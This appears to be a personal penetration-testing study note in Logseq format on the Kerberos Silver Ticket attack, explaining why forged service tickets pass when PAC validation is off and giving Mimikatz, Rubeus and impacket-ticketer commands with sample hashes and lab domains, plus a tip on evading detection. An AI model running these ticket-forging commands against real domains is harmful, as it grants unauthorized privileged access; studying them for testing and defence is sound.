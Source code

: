 public:: true

- [As we know](((655b6438-6055-4038-b37b-457c7b623610))), in the Kerberos protocol, user's permissions included in the [TGS](((655b24f3-a272-4dc0-814f-e7b3a4edf632))) (in the [PAC](((6564d528-627a-4b9b-b5b3-e57ff5477619))) block) are checked **by the application server** and not from the domain controller, except if [PAC validation](((655f615a-5051-4943-9791-934b3b6173bb))) is enabled.
- In case we are able to craft TGS tickets by ourselves we could spoof the specified users' permissions, actually grant us any permission we want.
- The TGS is encrypted by the [KDC](((6565b3f7-61b6-4b2a-a59d-01d20e6acd96))) with the password (hash) of the domain account to whom the [SPN](((655e0fad-5b48-42ce-b82a-09cd0e4a9322))) is assigned. Hence, we **need that account password** or at lease its hash to successfully perform a Silver Ticket attack.
- Let's consider we already got that password, for instance we retrieved it via [[Kerberoasting]] or dumped from the LSASS process' memory of a machine we broke into
- We can now forge TGS tickets for that SPN. And by doing that we can specify any permission we want into it.
- #+BEGIN_WARNING
  Permissions are defined in the PAC block of the TGS and this block is always **signed by the *krbtgt* user** *(only known by the KDC)*.
  
  That means we **cannot create a valid signature for the PAC** block.
  #+END_WARNING
- But, as we already saw in the [Kerberos workflow]([[Kerberos]]), PAC validation [is rarely performed](((656894a3-41d7-4b62-b202-c967caa53483))) by application servers. So we could expect that the application server will **blindly trust** the TGS we'll provide, without asking the KDC to validate the PAC signature in it.
  id:: 65689610-32fb-4241-99c9-b06cadf5f80c
- #+BEGIN_NOTE
  Thanks to Silver Tickets we might access resources from the targeted SPN that we shouldn't be able to access otherwise.
  #+END_NOTE
- Forge Silver Tickets
	- Ingredients
		- The SPN password hash
		  logseq.order-list-type:: number
			- Once the account [password is rotated](((6568a1fb-58d3-4402-bbb5-8c3d1bca729e))) or reset, we won't be able to generate TGS tickets anymore.
		- The SPN
		  logseq.order-list-type:: number
		- The [domain SID](((6568a492-a226-4069-a5ef-127a23fb9de5)))
		  logseq.order-list-type:: number
	- From Windows
	  id:: 6568a340-887a-4e0e-9515-0344e4728aaa
		- With [[Mimikatz]]
		  id:: 656a21e7-a8f6-4b59-9b30-521a3268a8f0
		  ```
		  kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
		  ```
			- `/sid` - The domain SID
			- `/domain` - The domain name
			- `/target` - The target where the SPN runs
			- `/service` - The SPN protocol
			- `/rc4` - NTLM hash of the account with the target SPN assigned
				- If available, it's always better use AES keys to minimize the detection risk
			- `/ptt` - To automatically inject the created ticket into the local LSASS process' memory
			- `/user` - The domain user we want to get access from
				- However, we could also use any other domain user since we can set the permissions and groups ourselves.
			- By default Mimikatz automatically set very high permissions, like *local-administrator* (500) and membership of the *Domain Admins* group (512). Plus others.
			- Full documentation [here](https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos#golden)
		- With [[Rubeus]]
		  id:: 6568aad6-ac91-4776-b544-a06110eec895
		  ```powershell
		  Rubeus.exe silver /service:cifs/SQL1.rubeus.ghostpack.local /rc4:f74b07eb77caa52b8d227a113cb649a6 /user:ccob /domain:rubeus.ghostpack.local /ptt
		  ```
			- `/service` - The target SPN
			- `/rc4` - NTLM hash of the account with the target SPN assigned
				- If available, it's always better use AES keys (`/aes256`) to minimize the detection risk
			- `/user` - The domain user we want to get access from
			- `/domain` - The domain name
			- `/ptt` - To automatically inject the created ticket into the local LSASS process' memory
			- Full documentation [here](https://github.com/GhostPack/Rubeus#silver)
	- From Linux
		- With [[impacket-ticketer]]
		  ```bash
		  impacket-ticketer \
		    -nthash b18b4b218eccad1c223306ea1916885f \
		    -domain-sid S-1-5-21-1339291983-1349129144-367733775 \
		    -domain jurassic.park \
		    -spn cifs/labwws02.jurassic.park stegosaurus
		  ```